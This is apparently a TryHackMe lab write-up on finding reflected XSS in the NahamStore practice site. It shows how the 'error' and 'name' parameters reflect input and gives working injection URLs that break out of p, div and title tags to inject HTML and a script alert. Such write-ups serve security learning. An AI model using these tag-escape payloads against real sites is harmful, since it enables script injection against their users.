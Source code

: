 # RECON





# XSS

# `http://marketing.nahamstore.thm/?error=`
- Go to (http://marketing.nahamstor.thm)
- It has two links redirects.

```html
  <td>Pre Opening Interest</td>
  <td>12/10/2020 18:23</td>
  <td class="text-center"><a href="/8d1952ba2b3c6dcd76236f090ab8642c" target="_blank"><span class="glyphicon glyphicon-new-window"></span></a></td>
</tr>
<tr>
  <td>Hoodie Giveaway</td>
  <td>12/15/2020 10:16</td>
  <td class="text-center"><a href="/09c2afcff60bb4dd3af7c5c5d74a482f" target="_blank"><span class="glyphicon glyphicon-new-window"></span></a></td>
```

- Edited the link to `/8d1952ba2b3c6dcd76236f090ab8642r`, i.e., changed last alphabet of the of redirect and got a new page `http://marketing.nahamstore.thm/?error=Not+Found`
- We can XSS in the `error` parameter, because same text is used in the web-page as `Not Found`, which can be confirmed by editing the parameter.
- We need to escape the `<p>` tag and inject are code

```html
<div class="alert alert-danger text-center" style="margin:0 100px 0 100px">
  <p>Not Found</p>
</div>

```

- I escaped `<div>` tags also just for fun
- **URL** - (http://marketing.nahamstore.thm/?error=XSS%3C%2Fp%3E%3C%2Fdiv%3E%3C%2Fdiv%3E%3C%2Fdiv%3E%3Ch1+style%3D%22color%3Ared%3Btext-align%3Acenter%22%3EPWNED%3C%2Fh1%3E) 

![screenshot](https://github.com/divu050704/assets-holder/raw/main/tryhackme-screenshots/15.png)

## `http://nahamstore.thm/product?id=1&name=Hoodie+%2B+Tee`
- Edited name tag to `random`, and the title changed to `random`.

```html
<head>
    <meta charset="utf-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1">
    <title>NahamStore - random</title>
    <link rel="stylesheet" href="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.7/css/bootstrap.min.css" integrity="sha384-BVYiiSIFeK1dGmJRAkycuHAHRg32OmUcww7on3RYdg4Va+PmSTsz/K68vbdEjh4u" crossorigin="anonymous">
</head>
```

- We can escape `</title>` tag and the code will be fine.
- Made a get request to (http://nahamstore.thm/product?id=1&name=%3C/title%3E%3Cscript%3Ealert(%22PWNED%22)%3C/script%3E) and got an alert `PWNED`

![screenshot](https://github.com/divu050704/assets-holder/raw/main/tryhackme-screenshots/16.png)
